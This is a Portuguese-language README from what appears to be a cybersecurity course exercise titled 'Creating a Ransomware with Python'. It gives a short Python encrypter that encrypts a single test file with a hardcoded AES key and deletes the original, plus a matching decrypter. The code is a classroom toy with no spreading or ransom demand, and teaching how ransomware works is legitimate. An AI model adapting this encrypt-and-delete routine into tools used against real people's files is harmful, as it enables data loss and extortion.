

 
### Criando um Ransomware com Python

### Ferramentas

- Kali Linux
- nano

### Encrypter

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

### Decrypter

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

### Resultados

Repositório Git
 
O Git é um conceito essencial no mercado de trabalho atualmente, por isso sempre reforçamos sua importância em nossa metodologia educacional. Por isso, todo código-fonte desenvolvido durante este conteúdo pode ser encontrado no seguinte endereço para que você possa consultá-lo a qualquer momento:
 
https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 

### Follow Me

[LinkedIN](https://www.linkedin.com/in/mads1974/)
